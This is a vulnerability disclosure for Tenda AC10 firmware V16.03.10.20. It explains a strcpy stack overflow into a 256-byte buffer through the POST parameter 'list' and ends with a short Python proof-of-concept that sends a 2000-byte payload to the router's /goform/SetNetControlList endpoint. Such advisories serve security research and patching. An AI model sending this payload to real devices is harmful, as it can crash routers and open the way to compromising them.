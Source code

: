 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3684.html

## Affected version

V16.03.10.20

## Vulnerability details

The Tenda AC10 V16.03.10.20 firmware has a stack overflow vulnerability in the `formSetQosBand` function. The `s` variable receives the `list` parameter from a POST request and this variable is passed into function `set_qosMib_list` as `a1`. In function `set_qosMib_list`, variable `a1` is passed to `s`, which is later assigned to the `v9` variable, which is fixed at 256 bytes. However, since the user can control the input of `list`, the statement `strcpy(v9, s);` can cause a buffer overflow. The user-provided `list` can exceed the capacity of the `v9` array, triggering this security vulnerability.

![image-20240309101244915](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309101244915.png)

![image-20240309101253491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309101253491.png)

![image-20240309101316064](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309101316064.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240309101433537](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309101433537.png)
